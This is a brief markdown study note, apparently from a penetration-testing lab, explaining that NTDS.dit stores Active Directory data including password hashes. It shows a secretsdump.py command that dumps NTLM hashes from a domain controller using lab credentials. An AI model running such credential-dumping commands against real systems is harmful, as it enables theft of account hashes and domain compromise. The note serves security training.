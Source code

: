 ## **NTDS.dit Overview**

### **What is it ?**

- A database used to store AD data. This data includes:
	- User information
	- Group information
	- Security descriptors
	- And oh yeah, password hashes


## **General Usage**

We can use the tool `secretsdump.py` to dump out the NTDS.dit secrets

```powershell
# secretsdump.py <domain/user>:'password'@DC-IP-ADDRESS -just-dc-ntlm
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.0.149 -just-dc-ntlm
```


